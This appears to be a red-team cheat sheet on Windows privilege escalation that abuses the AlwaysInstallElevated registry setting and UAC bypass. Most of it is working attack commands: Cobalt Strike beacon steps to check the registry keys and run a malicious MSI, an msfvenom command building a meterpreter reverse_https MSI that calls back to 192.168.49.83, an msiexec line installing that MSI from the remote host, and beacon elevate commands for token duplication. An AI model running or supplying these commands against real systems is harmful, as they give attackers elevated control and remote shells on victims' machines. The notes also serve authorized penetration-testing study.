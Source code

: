 #### Always Elevated

```
# Returns $True if the HKLM:SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated or the HKCU:SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated keys are set, $False otherwise. If one of these keys are set, then all .MSI files run with elevated permissions, regardless of current user permissions.

beacon> powershell Get-RegistryAlwaysInstallElevated
[...]

# upload MSI & Execute
beacon> shell msiexec /i c:\Users\target\Desktop\Evil.msi /qn

beacon> connect localhost 4444
```

Restrictions:
Default Installer rules:
- (everyone) all digitally signed windows installer files
- (everyone) all installer files in %systemdriver\%windows\installer
	- `%WINDIR%\Installer\*`
- (builtin\administrators) all installer files

To get this to work the MSI file needs to be the "no-uac" format and the msiexec command requires the `/qn` flags. The file must be remote, under those conditions. A temp file is created in the white listed directory c:\windows\installer.

```
c:\windows\installer\

03/25/2021  06:16 PM           126,976 MSI2658.tmp
```

Create

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 EXITFUNC=thread -f msi-nouac -o meterp64-nouac.msi
```

Run

```
msiexec /i http://192.168.49.83/meterp64-nouac.msi /qn
```

#### UAC

Technique has been patched from Windows 10 1809 and onwards.

Version 1607 LTSC still vulne (EoL 2026)

```
beacon> help elevate
[...]

# list exploits
beacon> elevate
[...]

# exploit
beacon> elevate uac-token-duplication peer-localhost-6000

# runasadmin
beacon> help runasadmin
beacon> runasadmin
```
